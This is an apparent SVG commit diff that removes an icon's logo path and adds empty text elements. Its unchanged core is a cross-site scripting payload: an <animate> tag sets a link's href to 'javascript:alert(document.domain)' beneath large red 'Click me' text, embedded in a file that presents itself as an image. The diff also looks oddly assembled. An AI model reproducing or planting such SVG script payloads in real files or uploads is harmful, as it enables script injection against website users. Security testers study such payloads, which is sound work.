

- <svg xmlns="http://www.w3.org/2000/svg" role="img" viewBox="0 0 24 24">
+ <svg xmlns="http://www.w3.org/2000/svg">
+   <text />
  <a>
    <animate attributeName="href" values="javascript:alert(document.domain)" begin="0s" fill="freeze" />
    <text x="50%" y="80%" fill="red" style="font-size:60px">Click me</text>
  </a>
-   <path d="M16.509 16.845c.147-.507.091-.971-.155-1.315-.225-.316-.605-.499-1.062-.52l-8.659-.112a.156.156 0 0 1-.133-.071c-.028-.042-.035-.099-.021-.155.028-.084.112-.148.204-.156l8.736-.112c1.035-.049 2.16-.887 2.554-1.914l.499-1.301c.021-.056.029-.113.015-.168-.562-2.546-2.835-4.445-5.55-4.445-2.504 0-4.628 1.618-5.388 3.861-.493-.366-1.119-.562-1.794-.499-1.203.119-2.167 1.083-2.286 2.286-.028.31-.007.613.064.894C1.568 13.171 0 14.775 0 16.752c0 .175.014.351.035.527.014.083.084.147.169.147h15.981c.091 0 .176-.065.203-.155l.12-.427zm2.757-5.563c-.077 0-.161 0-.238.011-.057 0-.105.042-.127.098l-.338 1.174c-.147.507-.092.971.154 1.316.226.316.606.498 1.062.519l1.844.113c.056 0 .105.026.133.07.028.043.035.107.021.156-.028.084-.113.148-.204.155l-1.921.112c-1.041.049-2.158.887-2.553 1.914l-.141.358c-.028.071.021.142.099.142h6.598c.077 0 .147-.049.169-.126.112-.408.176-.837.176-1.28 0-2.603-2.125-4.727-4.734-4.727" />
+   <text />
</svg>
